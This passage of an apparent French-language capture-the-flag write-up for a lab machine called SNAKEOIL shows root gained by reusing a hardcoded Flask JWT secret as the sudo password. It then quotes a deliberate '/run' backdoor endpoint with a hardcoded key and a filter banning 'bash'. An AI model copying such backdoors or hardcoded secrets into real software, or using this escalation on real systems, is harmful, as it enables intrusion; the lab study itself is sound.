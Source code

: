```console
patrick@SNAKEOIL:/home/patrick/flask_blog$ ls
__pycache__  app.py       flask_blog       flaskapi  init_db.py  models.py   requirements.txt  schema.sql  templates  wsgi.py
app.db       database.db  flask_blog.sock  hello.py  library.db  output.txt  resources.py      static      views.py
patrick@SNAKEOIL:/home/patrick/flask_blog$ id
uid=1000(patrick) gid=33(www-data) groups=33(www-data),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),116(lpadmin),117(scanner)
```

On trouve deux mots de passe dans la config Flask (`app.py`) :

```python
app = Flask(__name__)
api = Api(app)
app.config['SECRET_KEY'] = 'snakeoilisnotgoodforcorporations'
app.config['JWT_COOKIE_SECURE'] = True
app.config['JWT_SECRET_KEY'] = 'NOreasonableDOUBTthisPASSWORDisGOOD'
app.config['JWT_ACCESS_TOKEN_EXPIRES'] = timedelta(minutes=15)
app.config['JWT_REFRESH_TOKEN_EXPIRES'] = timedelta(hours=1)
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['JWT_COOKIE_CSRF_PROTECT'] = False # development setting!

app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///app.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```

Le second mot de passe est aussi celui du compte Unix. Et l'utilisateur peut exécuter n'importe quelle commande en tant que root si le mot de passe est saisi :

```console
patrick@SNAKEOIL:/home/patrick/flask_blog$ sudo su
[sudo] password for patrick:
root@SNAKEOIL:/home/patrick/flask_blog# cd /root
root@SNAKEOIL:~# ls
proof.txt  sudoers.bak
root@SNAKEOIL:~# cat proof.txt 
Congratulations on obtaining a root shell on this machine! :-)
```

## How it works

Voici juste un extrait de l'appli Flask pour l'endpoint `/run` :

```python
# backdoor. dangerous!

@app.route("/run", methods=["POST"])
def backdoor():
    req_json = request.get_json()

    if req_json is None or "url" not in req_json:
        abort(400, description="Please provide URL to request in the form url:port. Example: 127.0.0.1:12345")

    if "secret_key" not in req_json:
        abort(400, description="We need your secret key!")

    if req_json["secret_key"] != "commandexecutionissecret":
        abort(400, description="Wrong secret key! Alert will be raised!")

    # write some validation rules to stop shell commands

    if "bash" in req_json["url"]:
        abort(400, description="Banned command!")

```